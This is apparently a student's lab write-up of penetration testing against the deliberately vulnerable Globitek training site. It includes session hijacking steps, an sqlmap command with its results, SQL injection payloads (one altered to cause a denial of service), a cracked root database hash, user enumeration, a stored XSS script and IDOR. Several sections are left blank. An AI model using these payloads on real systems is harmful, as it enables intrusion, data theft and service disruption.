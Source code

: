 #  Pen Testing Live Targets

Time spent: 15 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

# Vulnerability #1: Session Hijacking

Description: 

A Session Hijacking attack is an exploit the seeks to manipulate the web session control mechanism by sending a request to a web server with an authenticated SessionID, Cookie or a combination of both. Web servers grant a token to a client browser after authentication, said token can be used to hijack another users's session. By masquerding your browsers token as the authenticated token, the web server will recognize you as an authenticated user, granting you access. 

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2. Then go to https://104.198.208.81/blue/public/hacktools/change_session_id.php to see your current PHPSESSIONID, store that information for later. 
3. Open another browser such as Firefox or Chrome and visit https://104.198.208.81/blue/public/hacktools/change_session_id.php, copy the authenticated PHPSESSIONID to replace the your Session ID. 
4. Next visit https://104.198.208.81/blue/public/login.php, you should see that you are already logged in. 
5. We successfully bypassed authentication.

![Session Hijacking Exploit](https://user-images.githubusercontent.com/111711434/200113050-d1337254-f6f5-4351-b27f-76912f7a5866.gif)


# Vulnerability 2: SQL Injections

Description: 

How to document and recreate this exploit:

1. First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2. Then head on over to URL https://104.198.208.81/blue/public/salesperson.php?id=1 
3. Using BurpSuite, GET request file as a TXT file. We will feed this information to a tool called SQLMap with the following parameter: sqlmap -r /home/kali/sqlmal-dev/request.txt -a (the -a parameter will return EVERYTHING, at times not recommended)
4. SQLMap detects a vulnerability in the 'id=' field and provides us with three SQL injections:
	
   * Parameter: id (GET)
     * Type: boolean-based blind
     * Title: AND boolean-based blind - WHERE or HAVING clause
     * Payload: id=3' AND 2971=2971 AND 'bcTH'='bcTH
    
      Comments after testing: Returned the information for User Irene Boling, see below:
   
   
  * Irene Boling
  * 555-736-2301
  * iboling@salesperson.com

   
   
   * Type: time-based blind
   * Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   * Payload: id=3' AND (SELECT 8396 FROM (SELECT(SLEEP(5)))PBWw) AND 'pCMl'='pCMl 
   
   
     Comments after testing: Changed (SlEEP(5))))PBWw) to SLEEP(200000))))PBWw and it created a Denial of Service for the time   set. 
   ![Denial of Service after SQL injection  ](https://user-images.githubusercontent.com/111711434/200140448-3da3ba36-f3b6-4bcf-a079-b24d6592906c.png)

   * Type: UNION query
   - Title: Generic UNION query (NULL) - 5 columns
   - Payload: id=-8495' UNION ALL SELECT  CONCAT(0x716b766a71,0x6b544944475a6778655979637a6558776b595163416a567459494a735864556b4f55666875547352,0x7171717a71),NULL,NULL,NULL,NULL-- -


Comments after testing: Redirects back to the 'Find a Salesperson' web page.

The scan revelead the following information that can further assist us:
* Web Server OS : Linux Ubuntu 16.04 or 16.10
* Web App Technology: Apache 2.4.18 server
* MySQL version: 5.0.12

Databases:  

* [INFO] fetching database names
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'information_schema'
* [INFO] resumed: 'globitek_blue'
* [INFO] resumed: 'globitek_green'
* [INFO] resumed: 'globitek_red'
* [INFO] resumed: 'mysql'
* [INFO] resumed: 'performance_schema'
* [INFO] resumed: 'sys'



Database management users:                                                                                                                                                                                                     
* 'debian-sys-maint'@'localhost'
* 'mysql.session'@'localhost'
* 'mysql.sys'@'localhost'
* 'root'@'localhost'


Moreover, SQLMap also located & revealed the following password hashes:

[INFO] fetching database users password hashes
  
[INFO] resumed: 'mysql.sys','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'

[INFO] resumed: 'debian-sys-maint','*7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C'

[INFO] resumed: 'mysql.session','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'





 Using the integrated dictionary-based password cracker (mysql_passwd) the password for root was found:


database management system users password hashes:                                                                                                                               


* debian-sys-maint [1]: password hash: *7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C
* mysql.session [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* mysql.sys [1]: password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
* root [1]: password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
*                            clear-text password: password




## Green

# Vulnerability #1: User Enumaration 

Description:

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/staff/login.php
2. Attempt to log on with a random username & password, you will notice that the error returns as "Log in was unsuccesful"; however, upon attempting to enter a known user such as pperson with a wrong password the same error returned but in bold(different CSS class), confirming the user exists in the database. 

![User Enumeration ](https://user-images.githubusercontent.com/111711434/200143718-b1ebb1ae-5fd7-4d2f-a9ee-1dfd6b6dd1f6.gif)



# Vulnerability #2: Cross Site Scripting (XSS) 

Description: 

How to document and recreate this exploit:

1. Visit https://104.198.208.81/green/public/
2. Then go to https://104.198.208.81/green/public/contact.php, the 'Contact' form is possible point of injection for XSS. 
   ![image](https://user-images.githubusercontent.com/111711434/200144285-d3869f55-8a9f-479e-911b-a2b0b612a750.png)

     
3. Fill out the fields:
  * Name: Test
  * Email: test@yahoo.com
  * Feedback: <script>alert('In plain sight.');</script  (this is a blind XSS script test) 
4. Hit submit.
5. Log in using the pperson credentials.
6. Head to the Feedback section.
7. We confirmed that the site is vulnerable to XSS. 

![Green XSS](https://user-images.githubusercontent.com/111711434/200143880-9a29cfb5-4871-464d-9bca-4545b404deeb.gif)



## Red

# Vulnerability #1: Insecure Direct Object Reference (IDOR)

	
Description:

How to document and recreate this exploit:
	
1. Visit https://104.198.208.81/red/public/index.php
2. Head over to https://104.198.208.81/red/public/territories.php and click on any user of interest, in this case I picked bobby (https://104.198.208.81/red/public/salesperson.php?id=1) 
3. Preliminary testing indicates that salesperson.php?id= may be vulnerable. 
 * Tested various values in the ID= field of the URL
 * ID=10 revealed information about 
   Testy McTesterson, and user that is not supposed to be public until September 1st. 
   ![image](https://user-images.githubusercontent.com/111711434/200144425-b4fa5ff2-4ff8-41f7-80bf-95b876e7d9cc.png)
 
	

	
* ID=11 revelead information on Lazy Lazyman, an employee that was fired.
  ![image](https://user-images.githubusercontent.com/111711434/200144538-ad5dce27-82e2-43c7-bca9-d066dccad206.png)



  

	
	
	
	
	
	
# Vulnerability #2: Cross Site Request Forgery (CSRF)

Description:


## Notes

Describe any challenges encountered while doing the work
